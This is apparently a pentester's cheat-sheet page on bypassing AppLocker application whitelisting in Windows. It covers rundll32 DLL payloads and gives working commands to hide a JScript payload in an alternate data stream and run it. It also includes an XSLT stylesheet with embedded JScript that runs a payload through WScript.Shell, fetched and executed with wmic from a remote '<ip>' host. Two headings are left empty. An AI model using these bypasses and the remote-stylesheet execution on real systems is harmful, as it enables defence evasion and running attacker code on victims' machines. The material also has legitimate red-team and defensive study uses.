 # Application Whitelisting

### Bypass using DLLs

By default DLLs are not included in AppLocker Rules, so we might be able to execute a unmanaged DLL payload with rundll32.exe.

### Bypass using ADS

We can write a JScript payload to a whitelisted files ADS and then execute it with WScript:

```text
type payload.js > whitelisted.txt:payload.js
wscript whitelisted.txt:payload.js
```

### Bypass using 3rd Party Scripting Engine

If Python or a similar interpreter is installed we can use that to bypass AppLocker.

### Microsoft.Workflow.Compiler

### MSBuild

### JScript Execution using XSLT

```text
<?xml version='1.0'?>
<stylesheet version="1.0" xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt" xmlns:user="http://mycompany.com/mynamespace">
<output method="text"/>
    <ms:script implements-prefix="user" language="JScript">
        <![CDATA[
            var r = new ActiveXObject("WScript.Shell");
            r.Run("<payload>");
        ]]>
    </ms:script>
</stylesheet>
```

Execute with:

```text
wmic process get brief /format:"http://<ip>/payload.xsl"
```

